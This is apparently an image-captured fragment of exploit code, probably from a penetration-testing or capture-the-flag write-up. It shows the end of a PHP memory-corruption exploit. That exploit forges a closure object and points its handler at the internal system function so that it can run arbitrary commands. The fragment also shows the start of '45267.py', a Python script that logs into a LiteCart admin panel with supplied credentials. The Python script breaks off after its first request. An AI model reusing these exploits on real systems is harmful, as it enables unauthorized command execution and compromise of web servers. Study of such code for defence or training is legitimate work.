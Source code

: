 ```
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);

    exit();
}


```

and 45267.py 

```python
import mechanize
import cookielib
import urllib2
import requests
import sys
import argparse
import random
import string
parser = argparse.ArgumentParser(description='LiteCart')
parser.add_argument('-t',
                    help='admin login page url - EX: https://IPADDRESS/admin/')
parser.add_argument('-p',
                    help='admin password')
parser.add_argument('-u',
                    help='admin username')
args = parser.parse_args()
if(not args.u or not args.t or not args.p):
    sys.exit("-h for help")
url = args.t
user = args.u
password = args.p

br = mechanize.Browser()
cookiejar = cookielib.LWPCookieJar()
br.set_cookiejar( cookiejar )
br.set_handle_equiv( True )
br.set_handle_redirect( True )
br.set_handle_referer( True )
br.set_handle_robots( False )
br.addheaders = [ ( 'User-agent', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1' ) ]
response = br.open(url)
```
